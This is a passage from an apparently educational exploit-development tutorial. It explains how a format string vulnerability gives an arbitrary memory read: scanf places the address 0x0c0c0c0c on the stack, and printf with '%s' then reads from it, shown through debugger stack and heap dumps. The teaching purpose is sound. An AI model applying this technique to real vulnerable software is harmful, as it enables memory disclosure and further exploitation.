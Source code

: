 If we want to take advantage of the format string vulnerability to read data from the address 0x0c0c0c0c, we need some kind of routine that places arbitrary data on the stack. The above example uses a `scanf` function to acheive this idea:

**Before scanf()**

```
009DF8A4   00B10000  |Arg1 = 00B10000 ASCII "%s"
009DF8A8   009DF8AC  \Arg2 = 009DF8AC
009DF8AC   00000000
009DF8B0   00000000
009DF8B4   009DFA18
009DF8B8   001B0000
009DF8BC   0000007F
009DF8C0   009DFA18
009DF8C4   774E4D39  RETURN to ntdll.774E4D39 from ntdll.774F8158
```

**After scanf()**

```
009DF8A4   00B10000  ASCII "%s"
009DF8A8   009DF8AC
009DF8AC   0C0C0C0C <--- Our arbitrary data
009DF8B0   00000000
009DF8B4   009DFA18
009DF8B8   001B0000
009DF8BC   0000007F
009DF8C0   009DFA18
009DF8C4   774E4D39  RETURN to ntdll.774E4D39 from ntdll.774F8158
```

If the next function is the vulnerable `printf` statement, then the value 0x0c0c0c0c will become the second argument:

```
009DF8A8   009DF8AC  \Arg1 = 009DF8AC
009DF8AC   0C0C0C0C  ASCII "AAAAAAAAAAAAAAAA..."
```

Because our value becomes the second argument for `printf`, if we supply `%s` as the format string, we end up reading the string at address 0x0c0c0c0c until it hits a null byte terminator:

```
AAAAAAAAAAA...AAAAAAAAA½½½½½½½½
```

The extra bytes at the end comes from the heap block:

```
0C0C0C0C  41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41  AAAAAAAAAAAAAAAA
0C0C0C1C  41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41  AAAAAAAAAAAAAAAA
 ....

0C0C142C  41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41  AAAAAAAAAAAAAAAA
0C0C143C  41 41 41 41 AB AB AB AB AB AB AB AB 00 00 00 00  AAAA««««««««....
0C0C144C  00 00 00 00 C8 7B 70 3A C6 4D 6C 18 41 41 41 41  ....È{p:ÆMlAAAA
```
